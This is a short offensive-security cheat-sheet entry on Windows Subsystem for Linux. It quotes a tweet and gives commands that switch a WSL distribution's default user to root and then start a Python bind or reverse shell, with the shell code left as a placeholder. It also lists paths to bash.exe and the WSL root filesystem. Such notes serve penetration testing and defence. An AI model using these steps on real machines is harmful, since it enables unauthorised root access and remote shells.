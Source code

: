 
## Windows Subsystem for Linux

The Windows Subsystem for Linux (WSL) is a compatibility layer in Windows that allows you to run a Linux environment directly on a Windows system. It enables you to run native Linux command-line tools and utilities alongside your Windows applications, providing a convenient way to develop and run Linux software on a Windows machine. WSL provides different distributions of Linux, such as Ubuntu, Debian, and SUSE, which can be installed and used within the Windows environment.

Released in 2016 - and has inherent vulnerabilities

If it has root - you can create a bind shell on any port.


Technique borrowed from [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows Subsystem for Linux (WSL) allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ .exe --default-user root. Now start your bind shell or reverse.

```
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'

```
Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`
